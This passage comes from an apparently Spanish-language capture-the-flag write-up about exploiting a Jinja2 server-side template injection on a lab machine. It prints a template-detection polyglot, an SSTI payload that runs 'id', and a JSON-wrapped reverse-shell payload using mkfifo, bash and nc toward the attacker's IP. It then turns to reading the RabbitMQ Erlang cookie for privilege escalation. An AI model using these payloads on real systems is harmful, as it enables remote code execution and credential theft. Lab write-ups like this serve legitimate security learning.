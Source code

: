 Nos dice que el método no es correcto, pues cambiamos de **GET** a **POST**. Pero eso no es suficiente investigando un poco di con la clave que es enviar una cadena de JSON vacía para ver como reaccionaba y BINGO!!

![](https://miro.medium.com/v2/resize:fit:875/1*Yjngsm6U-gjw1GUeN5UG-w.png)

Ahora me pide unos parámetros de usuario.

![](https://miro.medium.com/v2/resize:fit:875/1*SIMamy9sD6Ze90cvt_uhwA.png)

Vemos que se refleja respeta, entonces vamos a investigar porque es posible que podamos conseguir acceso a la máquina.

l introducir este payload podemos ver información relevante de que tecnología se está usando por detrás.

**{{<%[%'}}%\\.**

![](https://miro.medium.com/v2/resize:fit:875/1*Vi9LOyxVMNGLGSHwCLNSmQ.png)

Vemos que esta utilizando el motor de plantillas **Jinja2**, por lo tanto ahora podemos dirigir mejor el ataque.

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

He utilizando esta comando para poder sacar el la información de la **id** de la máquina y BINGOO!

![](https://miro.medium.com/v2/resize:fit:735/1*X1GYk_D3tRrPNu4OJVe90w.png)

Nos da la información, entonces es momento de entablar una conexión mediante una **reverse shell**.

`{"username":"{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc [IP LOCAL] [PUERTO ESCUCHA]>/tmp/f').read() }}"}`

![](https://miro.medium.com/v2/resize:fit:875/1*RI7G-yX4QoiZl30jof0-yg.png)

Estamos dentro de la máquina.

# Escalada de Privilegios

Primeramente, tenemos la flag de usuario.

![](https://miro.medium.com/v2/resize:fit:436/1*NwtgS4VOKi4HJepdOEgMlQ.png)

Seguidamente investigando un poco si recordamos teníamos el servicio de las cookies de **Erlang**, que se ubican en esta ruta:

/var/lib/rabbitmq/.erlang.cookie

Le hacemos un **less** y así podemos ver el contenido mucho mejor.

![](https://miro.medium.com/v2/resize:fit:554/1*7RmgVkcPXNDmsYDAuSJ6Ng.png)

Debido a los escaneos realizados anteriormente, sabemos que el nodo **RabbitMQ** se está ejecutando en el servidor:
